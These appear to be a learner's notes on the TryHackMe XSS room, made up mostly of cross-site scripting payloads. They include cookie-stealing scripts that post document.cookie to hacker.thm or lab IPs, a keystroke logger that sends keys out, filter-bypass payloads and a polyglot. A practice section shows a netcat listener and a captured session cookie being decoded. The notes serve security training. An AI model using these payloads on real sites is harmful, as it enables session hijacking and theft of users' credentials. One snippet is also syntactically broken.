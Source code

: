 https://tryhackme.com/room/xssgi

##  XSS Payloads

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

### Fetch

```js
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Image

```js
<script>var new Image().src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

### `<img>` Tag Instead of `<script>` Tags

```js
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
```

### `<SVG> Tag

```js
<svg/onload=alert(1)>
```

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

## Perfecting your payload

### **Level Four:** Inner HTML

You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload `';alert('THM');//`

which you'll see from the below screenshot will execute your code. The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

Payload:
```js
;alert('THM');//
```

### Level Five: Script Keyword Remove

Now, this level looks the same as level one, and your name also gets reflected in the same place. But if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.

The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.

Official Answer:

```js
<sscriptcript>alert('THM');</sscriptcript>
```

My Payload

```bash
<svg/onload=alert("THM")>
```

### Level Six: Tag Attribute Escape

My Payload

```js
x" onerror=alert("THM")//
```

### **Polyglots:**

Works on all levels...

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

## Practice

Get Attack Box Machine IP: 
```bash
┌──(root㉿kali)-[~]
└─# hostname -I
10.10.71.141
```

Listen On Port `81` with -k(keep alive)

```bash
nc -lvnkp 81
```

or Use http server

```py
python3 -m http.server 81
```

Submit Payload

- `<svg>`  with `Image()` 
```js
TEST</textarea><svg/onload="new Image().src=`http://10.10.84.210:81/c/${btoa(document.cookie)}`"><textarea>
```

- `<img>` with `Image()`
```js
TEST</textarea><img src="x" oNeRror="new Image().src=`http://10.10.84.210:81/c/${btoa(document.cookie)}`;"><img><textarea>
```

- `<script>` With `fetch()`
```js
TEST</textarea><script>fetch(`http://10.10.84.210:81/c/${btoa(document.cookie)}`)</script><textarea>
```

- Use Beef XSS
- Use XSS Hunter
- Use free hosting servers like `pipedream`

Response

```js
10.10.55.251 - - [26/Jan/2023 14:04:15] "GET /c/c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1" 404 -
```

Base64 decode using: python  | [Cyberchef](https://gchq.github.io/CyberChef/) | BurpSuite

```python
In [3]: base64.b64decode("c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==")
Out[3]: b'staff-session=4AB305E55955197693F01D6F8FD2D321'
```

Go to `Application > Cookies` to set cookies

![](../../attachment/8582791f41e960ab92333888e0689c42.png)


## Resources

- https://xsshunter.com/